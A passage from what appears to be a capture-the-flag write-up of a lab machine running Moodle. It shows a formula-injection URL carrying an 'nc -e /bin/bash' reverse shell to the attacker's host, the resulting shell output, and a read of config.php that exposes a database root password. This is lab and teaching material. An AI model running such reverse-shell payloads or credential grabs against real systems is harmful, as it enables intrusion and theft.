 The formula will execute code we put in the `$_GET['0']` parameter:

`10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=(nc -e /bin/bash 10.10.14.23 4444)`

![](/assets/images/htb-writeup-teacher/formula2.png)

This'll spawn a shell for us:

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.153] 49210
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$
```

### Getting access to giovanni user

Like any web application with a database backend, the first thing I do once I get a shell is look for hardcoded database credentials in the PHP configuration file of the application. The Moodle configuration file contains the `root` account password for the MySQL database:

```
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file
[...]
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
```

